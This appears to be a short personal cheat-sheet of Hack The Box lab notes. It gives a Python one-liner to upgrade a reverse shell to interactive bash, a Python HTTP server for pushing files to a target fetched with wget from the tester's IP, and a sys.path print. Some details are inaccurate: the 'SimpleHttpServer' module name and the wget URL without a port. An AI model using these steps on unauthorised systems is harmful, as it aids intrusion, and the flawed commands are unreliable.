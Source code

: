 

## Spawn a Shell When Connecting to a Reverse Shell   

* With python 2 or python 3  
	```console
	python -c 'import pty;pty.spawn("/bin/bash");'

	//or

	python3 -c 'import pty;pty.spawn("/bin/bash");'
	```  


 ## Using Python to Transfer Files  

* On my machine  
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000
  #or 
  Shatha Barqawi@htb[/htb]$ python3 -m SimpleHttpServer 8000  # Make sure of this

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```
* And then `wget http://[MY IP]/[FILE NAME]` on the other machine.   


## I'm, Honestly, Not sure What This Is  

```
python3.5 -c 'import sys; print( "\n".join(sys.path))'
``` 

